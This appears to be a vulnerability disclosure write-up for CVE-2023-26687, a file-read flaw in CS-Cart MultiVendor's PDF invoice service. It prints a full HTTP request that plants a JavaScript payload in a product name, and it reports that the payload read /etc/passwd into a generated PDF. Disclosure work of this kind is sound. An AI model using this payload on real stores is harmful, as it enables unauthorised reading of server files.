





# CVE-2023-26687 - Local File Inclusion vulnerability in CS-Cart MultiVendor
This vulnerability allows an attacker to read arbitrary files from the CS-CART PDF cloud service server by manipulating the input passed to the PDF processor. The vulnerability was identified as a result of the PDF processor not properly filtering HTML tags, which allowed for the execution of JavaScript in the context of the processor.

## Testing Environment
We utilized the official .zip file obtained from the CS-Cart website to perform a default installation of "CS-Cart MultiVendor 4.16.1" with example data. The installation was conducted on a fully patched Ubuntu Server 22.04 running PHP 8.1.2 and Apache/2.4.52.

## Exploitation
There are two methods to exploit this vulnerability. The initial approach involves authenticated mode and utilizes the "PDF Documents" add-on which is installed and activated by default. The second method is an unauthenticated approach that simply involves calling the CS-Cart cloud service API directly.



We have edited a product name in order to include valid JavaScript which reads a file from disk:



The full payload is displayed below in the HTTP request:
```
POST /admin.php HTTP/1.1
Host: 172.16.85.150
Content-Length: 10149
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://172.16.85.150
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryltAdAs72z20yBxQP
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://172.16.85.150/admin.php?dispatch=products.update&product_id=12
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: klaro=%7B%22paypal%22%3Atrue%2C%22facebook%22%3Atrue%2C%22pinterest%22%3Atrue%2C%22twitter%22%3Atrue%2C%22yandex%22%3Atrue%2C%22google_maps%22%3Atrue%7D; sid_customer_179e8=bdc0f02d0f9664b4e9f38f9f00f42b50-C; sid_vendor_179e8=0f6a5cca23a94bc5e7aa1fd6ad344858-A; sid_admin_179e8=b5bd24184e18e9a95fc2380471d5b6cc-A; te_selected_path=bright_theme%2Ftemplates%2Fblocks%2Fmy_account.tpl
Connection: close

------WebKitFormBoundaryltAdAs72z20yBxQP
Content-Disposition: form-data; name="fake"

1
------WebKitFormBoundaryltAdAs72z20yBxQP
Content-Disposition: form-data; name="selected_section"

detailed
------WebKitFormBoundaryltAdAs72z20yBxQP
Content-Disposition: form-data; name="product_id"

12
------WebKitFormBoundaryltAdAs72z20yBxQP
Content-Disposition: form-data; name="product_data[product]"

100g<script> a = new XMLHttpRequest();a.onload= function(){document.write(this.responseText);};a.open("GET","file:///etc/passwd");a.send();</script>
------WebKitFormBoundaryltAdAs72z20yBxQP
***TRUNCATED***
```

To make the process easier, we added the product with the JavaScript payload in its name to an existing order (#96 from the demo products).



Afterward, we proceeded to create the invoice in PDF format.



The resulting PDF exhibited the contents of the /etc/passwd file retrieved from the server.


